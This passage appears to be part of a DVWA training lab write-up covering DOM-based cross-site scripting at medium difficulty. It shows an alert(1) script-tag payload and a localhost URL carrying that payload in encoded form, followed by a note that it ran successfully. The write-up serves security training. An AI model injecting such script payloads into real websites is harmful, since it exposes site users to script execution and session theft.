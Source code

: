 ```jsx
default=English&<script>alert(1)</script>
```

```
http://localhost:8086/vulnerabilities/xss_d/?default=English&%3Cscript%3Ealert(1)%3C/script%3E
```

### Done

成功執行

![Untitled](DVWA%20-%20medium%20e321411a64fa4f7c9a4e674a9a8bf23e/Untitled%2071.png)
